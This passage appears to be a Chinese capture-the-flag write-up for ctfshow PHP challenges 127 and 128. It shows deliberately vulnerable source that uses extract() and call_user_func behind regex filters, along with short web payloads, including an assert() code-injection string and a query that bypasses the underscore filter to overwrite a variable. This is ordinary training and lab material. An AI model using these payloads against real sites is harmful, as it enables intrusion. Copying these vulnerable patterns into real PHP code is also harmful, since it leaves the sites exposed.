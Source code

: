 ```php

or

GET:?$fl0g=flag_give_me 

POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0]) 7
```

## 127

```php
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
} 
```

payload：

```php
?ctf show=ilove36d
```



## 128

```PHP
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}
function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}
```